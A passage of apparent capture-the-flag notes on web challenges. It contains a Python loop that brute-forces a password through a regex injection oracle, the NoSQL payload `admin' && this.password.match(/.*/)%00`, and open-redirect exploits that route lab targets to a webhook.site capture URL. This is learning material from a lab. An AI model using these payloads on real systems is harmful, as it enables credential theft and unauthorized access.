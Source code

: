 ```python
    for c in chars:
        print("Trying: {} for: {}".format(c, password))

        test = password+str(c)
        if(check("^{}.*$".format(test))):
            password += str(c)
            print("Matches: {}".format(password))
            break

# result is
# 5b317d17-3ee3-4865-8605-bb579f58c10a
```

notes:
- payload to execute: `admin' && this.password.match(/.*/)%00`
- `password` is a valid field
- `&& this.password && this.password.match(... instead of just using ... && this.password.match(....`
- test the regex until find a valid password `/.*/`


## Open redirect

### 01
chl:
- exploit open redirect and get user info

url:
http://ptl-2cf8fb56-3b8ffacf.libcurl.st/redirect.php?uri=/

exploit:
- http://ptl-2cf8fb56-3b8ffacf.libcurl.st/redirect.php?uri=http://webhook.site/e3cb82b5-1862-452b-935b-6f6ad282c6e6
- Check the redirection http headers, you can find the flag 

notes:
- Site to capture redirects: http://webhook.site - you need to generate a hook

### 02
chl:
url:
http://ptl-dc0b20ac-350392f5.libcurl.st/redirect.php?uri=/

exploit:
- http://ptl-dc0b20ac-350392f5.libcurl.st/redirect.php?uri=//webhook.site/e3cb82b5-1862-452b-935b-6f6ad282c6e6
- notice the starting `//`

notes:
- `http://` vs `https://` vs `//`


## SQL Injection

